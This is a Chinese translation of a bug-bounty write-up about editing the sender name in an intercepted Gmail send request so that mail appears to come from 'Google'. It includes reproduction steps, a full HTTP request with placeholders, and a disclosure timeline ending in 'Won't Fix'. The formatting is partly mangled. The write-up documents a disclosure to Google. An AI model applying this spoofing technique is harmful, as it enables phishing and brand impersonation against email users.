





# 绕过授权— Gmail

> 原文：<https://infosecwriteups.com/authorization-bypass-gmail-2949af041fb?source=collection_archive---------0----------------------->


*   *关于漏洞*

Gmail 上最简单但最棘手的案例，攻击者可以通过发送电子邮件**冒充知名品牌和个人**来欺骗目标。不要再绕弯子了，让我们进入正题吧。

## Gmail 授权

在创建谷歌账户时，Gmail 绝不会要求你证明你的身份。它要求你证明你是一个人，而不是一个机器人。我们可以编辑我们的个人信息&即使我们可以编辑我们的信息，仍然有一些限制。

**这些都是谷歌自己实施的，用来防御侵犯&滥用。↓↓**

```
*1\. Some characters aren’t allowed.* 
***eg: emoji, tick, (, |, {, <, :), #,%,$ etc.****2\. The name which does not seem to meet Google’s policy is restricted.**3\. Input limits**4\. etc.*Along with further restrictions, **you can’t create an account** exactly named **“Google”**
```

## 校样:



Gmail 禁止用户这样做的原因很清楚。否则，任何人都可以滥用它&把它变成影响个人、公司、机构等的漏洞。

## 案例:

> 攻击者可以绕过其中的一些限制&可以以看得见的方式向任何拥有 Gmail 帐户的个人发送电子邮件。
> 
> **绕过谷歌的这一限制，攻击者可以准确地将他们的名字改为“谷歌”,并加上一个“验证标记”,还有一个真正的网址。**

## 概念证明


更多细节等着你，不要跳过

## **再现步骤:**

```
*** 1\. Open Gmail from the web browser.**** 2\. Pick up the target.**** 3\. Intercept the request while sending the mail**** 4\. Edit* the **"NAME"** *& send the request***Edited portion of request:**POST /sync/u/3/i/s?hl=en&c=13 HTTP/1.1
Host: mail.google.com
Cookie: COMPASS=XXXX;
3PSID=XXX;
t-GMAIL_SCH=XXXX;
User-Agent: XXXX;
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 743
X-Google-Btd: 1
X-Gmail-Btai: {"3":{"6":0,"10":1,"13":1,"15":0,"16":1,"17":1,"18":0,"19":1,"22":1,"23":1,"24":1,"25":1,"26":1,"27":1,"28":1,"29":0,"30":1,"31":1,"32":1,"33":1,"34":1,"35":0,"36":1,"37":"en","38":"Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0","39":1,"40":0,"41":25,"43":0,"44":1,"45":0,"46":1,"47":1,"48":1,"49":1,"50":1,"52":1,"53":1,"54":0,"55":1,"56":1,"57":0,"58":0,"60":0,"61":1,"62":0,"63":1,"64":0,"66":0,"67":0,"68":1,"69":1,"70":0,"71":1,"72":0},"5":"e00e0efee9","7":25,"8":"gmail.pinto-server_20211227.06_p0","9":1,"10":5,"11":"","12":19800000,"13":"+05:30","14":1,"16":418514969,"17":"","18":"","19":"1641437521701","21":"1370"}
X-Framework-Xsrf-Token: AKwhgQq1WH-n-MYenPLNA8YOCdUuhO2D8A:1641437195302
Origin: [https://mail.google.com](https://mail.google.com)
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Referer: [https://mail.google.com/mail/u/3/](https://mail.google.com/mail/u/3/)
Te: trailers
Connection: close
{"1":{"3":2},"2":{"1":[{"1":"43","2":{"1":"thread-a:r-3342554841964375422","2":{"14":{"1":{"1":"msg-a:r-4547215635208082171","2":{"1":1,"2":"SENDER-MAIL-ID@gmail.com","3":**"SENDER-NAME"**,"10":"SENDER-MAIL-ID@gmail.com"},"3":[{"1":1,"2":"TARGET-MAIL-ID@gmail.com@gmail.com"}],"7":"1640181726619","8":"","9":{"2":[{"1":0,"2":"<div dir=\"ltr\">Testing<br></div>"}],"7":1},"11":["^all","^pfg","^f_bt","^f_btns","^f_cl","^a"],"18":"1640181726619","36":{"6":0},"37":{"4":0},"42":0,"43":{"1":0,"2":0,"3":7,"4":0},"52":"s:12fc9f890bfae0e|#msg-a:r-4547215635208082171|0"},"3":1}}}}]},"4":{"1":"1640181719997","2":1,"3":"1640181726641","4":1,"5":200},"5":2}** *5\. Done*
```

## 影响

> ****

```
*1\. Anyone can exploit this vulnerability without any complexity.**2\. Google can’t detect the changes made while exploiting**3\. The attacker can navigate the individuals using Gmail**(utilizing the trustworthiness of Google)**4\. The complete abusement**5\. Likewise, It’s possible to perform any kind of spam attack**(highlighting other companies)*
```

> 在欺诈者滥用这个案例之前，我向谷歌详细描述了当时的情况。


> ***报道日期:2021 年 12 月 22 日***
> 
> ***分流(初始分流):2021 年 12 月 23 日***
> 
> ***分配(内部分流):2021 年 12 月 28 日***



> **当前状态:**
> 
> **关闭日期:2022 年 1 月 5 日**



```
**Priority: P3****Severity: S4****Status: Won't Fix** 
```

## 中间发生了什么？为什么我被理所应当的谷歌名人堂拒之门外？


> *运气又被吸了！*

如果情况变得一致，谷歌会奖励我。报案后，我试图引发一件史诗般的事情。所以，我尝试了不同的方法。所以，最初，没有威慑。我做了更多的测试&行为很奇怪。然后它被标记为 ***。*** *简单来说，被 Gmail 的垃圾邮件过滤器捕获的破坏性邮件* ***【连续尝试后】***



> ***一切都在一秒钟内发生变化。我更新了谷歌的观点。*** 没必要“求赏金”

**~ Gmail 是安全的~**



任务完成

我猜你喜欢这篇报道。我始终相信我最好的还在后面！并且不要无视与我接通 **推特**@[7h 3 H4 ckv 157](https://twitter.com/7h3h4ckv157)

# 注意:

> 你想知道它以前是怎么出现的吗？然后看看我上传的视频。

**我的第一次概念验证(在 Gmail 过滤器检测之前)**